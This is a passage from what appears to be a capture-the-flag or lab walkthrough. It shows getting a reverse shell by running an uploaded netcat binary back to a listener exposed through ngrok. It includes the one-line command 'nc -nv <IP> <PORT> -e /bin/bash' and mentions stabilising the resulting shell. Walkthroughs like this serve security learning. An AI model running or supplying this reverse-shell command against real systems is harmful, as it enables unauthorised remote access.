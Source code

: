 - Give the netcat binary full permissions

![](attachments/20240722103052.png)

Using this netcat binary, connect back to your netcat listener on the ngrok IP and PORT

Remember to stop the python server so you can startup your netcat listener on the same port

![](attachments/20240722103205.png)

![](attachments/20240722103245.png)

```bash
./nc -nv <IP> <PORT> -e /bin/bash
```

And we have shell access

![](attachments/20240722103356.png)

Stabilize the shell

![](attachments/20240722103510.png)
